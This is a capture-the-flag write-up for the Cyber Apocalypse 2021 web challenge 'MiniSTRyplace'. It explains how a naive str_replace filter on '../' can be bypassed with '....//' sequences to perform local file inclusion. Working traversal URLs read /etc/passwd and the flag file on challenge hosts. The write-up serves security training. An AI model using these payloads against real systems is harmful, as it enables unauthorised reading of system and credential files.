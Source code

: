 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2021 | MiniSTRyplace Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2021
parent: cyber_apocalypse_2021
category: web
challenge: MiniSTRyplace
tags: "web, bobby, twh, lfi"
date: 2021-04-24T00:00:00+00:00
last_modified_at: 2021-04-24T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2021</h1>

## MiniSTRyplace

> Solved by: Bobbysox and thewhiteh4t

* hint1: “Let's read this website in the language of Alines. Or maybe not?
This challenge will raise 33 euros for a good cause.”
* hint2: The challenges name is “miniSTRyplace”. This is a play on words for str_replace.
* We see right away that we can change language and it is represented:
`ip.address/?lang=es.php` a perfect place to try LFI

* In order to prevent path traversal, developers can implement blacklisting. It will usually look something like this:

```
$language = str_replace('../', '', $_GET['language']);
```

* This is where you can see the name of the challenge was a hint to the sec measures used.
*now we can modify our final payload to bypass blacklisting:

```
http://46.101.77.180:32490/?lang=....//....//....//....//....//....//....//....//etc/passwd
```

* Our exploit is successful, to get the flag we just used the following :

```
http://165.227.234.7:30779/?lang=....//....//flag
```

